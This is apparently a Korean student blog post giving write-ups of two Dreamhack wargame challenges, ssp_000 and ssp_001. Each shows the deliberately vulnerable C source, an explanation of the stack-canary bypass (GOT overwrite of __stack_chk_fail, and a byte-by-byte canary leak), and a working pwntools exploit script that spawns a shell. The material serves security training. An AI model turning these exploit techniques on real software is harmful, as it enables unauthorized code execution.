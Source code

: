 ```yaml
---
title: "[WHS]시스템해킹 pwnable"
categories: [WhiteHatSchool, task]
mermaid: true
tag:
- whitehatschool
- 화이트햇스쿨
- preBoB
---
```

# SSP_000
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```
해당 코드에서는 canary를 leak할 부분이 존재하지 않는다. 따라서 canary를 우회하는 방법은 canary가 달라 실패했을 때 실행이 되는 __stack_chk_fail함수에서 return하는 부분을 get_shell로 조작해 넣는 방법을 사용해야한다. 따라서 아래와같이 해당 함수를 접근해 got를 조작하면 쉘을 획득할 수 있다.


```python
from pwn import *

context.log_level = 'debug'
#p = process("./ssp_000")
p = remote("host3.dreamhack.games", 15295)
elf = ELF("./ssp_000")
get_shell = elf.symbols['get_shell']

p.send('A'*0x50)
p.sendlineafter("Addr : ", str(elf.got['__stack_chk_fail']))
p.sendlineafter("Value : ", str(get_shell))

p.interactive()

```


# SSP_001
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

우선 해당 문제의 소스코드를 보면 스택에 0x80과 변수들을 할당해줬고 case E 부분을 보면 내가 입력하는 길이만큼 name을 불러오고있다 따라서 이부분에서 BOF가 발생한다. 이 부분을 이용해서 공격벡터는 BOF를 통해 return to shellcode 을 생각할 수 있는데 

![image](https://jimin0605.github.io/assets/img/WHS/pwn/1.png)

pwndbg의 checksec을 통해 빌드정보를 확인해본결과 NX가 걸려있으므로 스택부분에 실행권한이 없어 이 공격은 불가능하다. 하지만 소스코드에 get_shell이라는 함수가 있으므로 해당 함수를 통해 쉘을 획득해야한다.

해당 함수를 실행하기 위해서는 스택 canary를 우회해야한다. 우회방법으로는 아래의 소스코드처럼 leak을 통해 스택canary를 하나씩 출력시켜 조합한다음 return addr를 get_shell로 변경시키면 끝이다.



```python
from pwn import *

r = process('./ssp_001')

sla = r.sendlineafter
sa = r.sendafter

def print_box(idx):
    sla('> ', 'P')
    sla('Element index : ', str(idx))

def Exit(name_len, name):
    sla('> ', 'E')
    sla('Name Size : ', str(name_len))
    sa('Name : ', name)

get_shell = 0x80486b9 # get_shell()

# canary leak
canary = 0
for idx in range(0x80, 0x84):
    print_box(idx)
    canary += (int(r.recvline()[-3:-1], 16) << ((idx - 0x80) * 8))

# overwrite return address of main() with get_shell()
Exit(0x50, b'a' * 0x40 + p32(canary) + b'a' * 8 + p32(get_shell))

r.interactive()
```

